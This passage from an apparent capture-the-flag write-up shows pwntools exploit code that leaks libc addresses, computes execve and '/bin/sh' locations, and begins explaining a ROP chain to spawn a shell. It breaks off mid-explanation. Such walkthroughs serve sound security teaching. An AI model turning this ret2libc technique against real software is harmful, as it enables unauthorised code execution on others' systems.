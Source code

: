 ```python
leaked_fgets = u64(cheese.recvline()[:-1].ljust(8, b'\x00'))
log.info(f'Leaked fgets: {hex(leaked_fgets)}')

libc_puts = 0x875a0 #From libc.rip
libc_base = (leaked_puts - libc_puts) #Simple maths
log.info(f'Libc base is: {hex(libc_base)}')

execve = libc_base + libc.sym["execve"] #Grab execve's offset from libc and add it to our leaked libc_base, so we can calculate execve's real address.
binsh = libc_base + 0x1b75aa
log.info(f'execve is at: {hex(execve)}')
log.info(f'binsh is at: {hex(binsh)}')

cheese.interactive() #So our connection doesn't die
```

![Untitled%2015.png](Untitled%2015.png)

## Step 7: The final payload

It's time to form our ROPchain for the final payload. We've leaked 2 addresses, and from those addresses we've found out which libc version we're running. From there, we've leaked the libc base in memory, which lets us find new functions, in this case, `execve()`, which will let us execute commands on the box. We'll be feeding execve() the `/bin/sh` argument, so that it spawns a shell for us. 

You'll notice that in our final payload, there's a bunch of p64(0)'s, and also a pop_rsi gadget. This is because `execve()` actually expects 3 arguments, not 1. 

We want to call `execve("/bin/sh",NULL,NULL)`, so we need to control more of the function arguments. 64bit calling convention states that function arguments are passed using the following registers: 
